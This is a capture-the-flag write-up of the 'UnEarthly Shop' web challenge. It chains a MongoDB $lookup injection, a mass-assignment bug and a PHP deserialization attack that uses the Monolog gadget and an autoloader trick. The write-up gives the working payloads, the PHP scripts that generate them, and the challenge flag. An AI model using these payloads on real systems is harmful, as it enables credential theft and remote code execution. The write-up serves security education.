## Web - UnEarthly Shop (hard)
>The Ministry has informed Pandora that the UnEarthly Shop may have valuable information on the location of the relic they are looking for. The UnEarthly Shop is a mysterious underground store that sells unearthly artifacts suspected to be remnants of an alien spacecraft. If we can gain access to their server, we may be able to uncover information about the relic's whereabouts. Can you help Pandora in her mission to gain access to the UnEarthly Shop's server and aid in the fight to save humanity?
>
>  Readme Author: [mukarramkhalid](https://mukarramkhalid.com/hack-the-box-cyber-apocalypse-2023-the-cursed-mission-writeups)
>
> [`web_unearthly_shop.zip`](web_unearthly_shop.zip)





There are two sides of this application, the frontend and the backend. Both have separate codebases.

The backend is for administrators to manage orders and it requires authentication. As per the Nginx configuration, all the requests to /admin point to the backend codebase.

This is what the backend looks like. It requires authentication.



On the frontend, we can see products and place orders. Frontend does not require authentication.



When we load the frontend, it makes an API call to get all the procuts.



This looks like a MongoDB match aggregation. Wait, so a user can decide what aggregation to use? That's not a good idea because there are other aggregations like lookup, which can be used to join multiple collections. The mongodb lookup is like JOIN in MYSQL.

So even if this query is being executed for one collection, we can join it with another collection and pull data.

Let's take a look at this in the source code.

So this is the /api/products endpoint, which points to the products method of the ShopController.



The controller takes our input and passes it to the getProducts method of the ProductModel.



The product model simply executes the query on the products collection.



So this is definitely an issue. Even if the query is being executed on the products collection, we can use lookup aggregation to join another collection (like users) and view the data. Let's take a look at both collections in the source code.



This is interesting. If we join users collection with products collection on the \_id field, we can pull the details of the admin user because the first product has the same \_id as the admin user i.e. 1.

This is what the $lookup syntax looks like.

```
{
   "$lookup":
     {
       "from": <collection to join>,
       "localField": <field from the input documents>,
       "foreignField": <field from the documents of the "from" collection>,
       "as": <output array field - can be string>
     }
}
```
So our payload will be:
```
[
  {
    "$lookup": {
      "from": "users",
      "localField": "_id",
      "foreignField": "_id",
      "as": "test"
    }
  }
]
```
We get the password of the admin user.



We're logged in as admin user.



We saw some serialized data in the access field of the users collection, so that looks interesting.

So the access field is like a list of permissions a user has. When a user logs in on the backend, this access field is used to decide what permissions are associated with a user. We can see that happening in the AuthController. When the user logs in, the access key is stored in the $\_SESSION key access.



Then this session key is unserialized in the UserModel in the property access.



This property is then used in the views of the application to check which parts of the application should be available to the logged in user. It's not the best idea to check for access permissions only in the views, but that's another story and not really the goal here.

Our goal is that we somehow place our serialized payload in the access field of the user collection and when it gets unserialized, we get code execution.

There's an application feature which allows us to update user name and the user password, but not the access or permissions.



Let's take a look at the code of this and see if there's a way to exploit this and change access field as well.

So the user update feature points to the update method in the UserController.



This method checks that the supplied data has id, username, and password fields and sends it to the updateUser method of the UserModel.

In UserModel, the updateUser method simply takes the data and updates in the users collection.



Do you see the problem here? There's a mass assignment vulnerability here.

The application doesn't check if there are any extra fields coming in with the update user request.

It checks for the missing fields, but it never checks for the extra fields. So if we send a serialized access field, it will get updated for the user.

So now, we have PHP deserialization vulnerability.

PHP derealization vulnerabilities are hard to exploit because we need to use parts of the existing code to do something malicious. Sometimes we need to chain together several different parts of the existing code. These chains are called gadgets. And it's not always possible to find exploitable gadgets.

There is an open source project called PHP Generic Gadget Chains, which keeps track of these exploitable gadgets in open source PHP libraries.

Now the next part was super tricky. One thing is certain, there's no useable gadget in the actual application code because a useable gadget requires a PHP magic method. We don't have that many in the application code, so it's probably something in a third party library in the vendor directory.

The next problem is that there are only 3 third party libraries in the backend code base. And these libraries do not have any known exploitable gadgets.



However, in the frontend code, there are quite a few libraries with known exploitable gadgets like Guzzle and Monolog.



Now the question is, can we use the deserialization bug on the backend to invoke a piece of code from the frontend even though both of them have totally separate code bases and autoloaders. It turns out we can.

This technique was used by Ambionics team in vBulletin (<= 5.6.9) Pre-authentication Remote Code Execution. You can read more about it here.

The main point from this article is that sometimes the PHP autoloaders are poorly coded which can let you load code from anywhere on the filesystem. In the article, when they used their deserialization bug to load a class googlelogin_vendor_autoload, it actually loaded the file googlelogin/vendor/autoload.php which is another autoloader, which loaded a whole lot more classes in return, which eventually loaded the class with the exploitable PHP gadget.

The autoloader in this challenge has the exact same problem.



You see for any class with _ underscores, it will replace them with slashes and end up requireing file from another location.

We want to load the autoloader of the frontend located at /www/frontend/vendor/autoload.php, which would load the Guzzle and Monolog libraries.

To load the autoloader of the frontend, we can load the class www_frontend_vendor_autoload which would be converted to /www/frontend/vendor/autoload.php by the backend autoloader.

After that, we can use a publicly available gadget of Monolog to get RCE. I didn't go with Guzzle gadget, because most of the RCE gadgets in Guzzle were fixed. The ones which are still available can write file to disk, which would be hard to exploit. On the other hand, the RCE gadget in Monolog is still available.

I used the following script to generate the payload.

First I created a file www_frontend_vendor_autoload.php.
```
<?php
 
// Load the autoloader of the frontend
class www_frontend_vendor_autoload {
}
```
Then I created another file MonoLogRCE.php.
```
<?php
 
// This gadget is publicly available at:
// https://github.com/ambionics/phpggc/blob/master/gadgetchains/Monolog/RCE/7/gadgets.php
namespace Monolog\Handler {
    class FingersCrossedHandler
    {
        protected $passthruLevel = 0;
        protected $handler;
        protected $buffer;
        protected $processors;
 
        function __construct($methods, $command)
        {
            $this->processors = $methods;
            $this->buffer = [$command];
            $this->handler = $this;
        }
    }
}
```
And then the final exploit.php to make the serialized payload.
```
<?php
 
require "www_frontend_vendor_autoload.php";
require "MonoLogRCE.php";
 
$obj = new www_frontend_vendor_autoload;
 
$obj2 = new \Monolog\Handler\FingersCrossedHandler(
    ['pos', 'system'],
    ['/readflag', 'level' => 0]
);
 
var_dump(json_encode(serialize([$obj, $obj2])));
```
I used json_encode so that the final payload has double quotes " escaped because this payload needs to go in JSON body and double quotes can mess it up. Plus json_encode would also take care of the null bytes by converting them to \u0000.

For the RCE, we're using PHP system function to execute the binary /readflag which would print the flag.

Here's the payload generated by this script.
```
a:2:{i:0;O:28:\"www_frontend_vendor_autoload\":0:{}i:1;O:37:\"Monolog\\Handler\\FingersCrossedHandler\":4:{s:16:\"\u0000*\u0000passthruLevel\";i:0;s:10:\"\u0000*\u0000handler\";r:3;s:9:\"\u0000*\u0000buffer\";a:1:{i:0;a:2:{i:0;s:9:\"\/readflag\";s:5:\"level\";i:0;}}s:13:\"\u0000*\u0000processors\";a:2:{i:0;s:3:\"pos\";i:1;s:6:\"system\";}}}
```
Once we send this payload, we get the following response.



After that, if we simply refresh the admin dashboard, it would trigger the deserialization and print the flag.



## Flag
HTB{l00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s}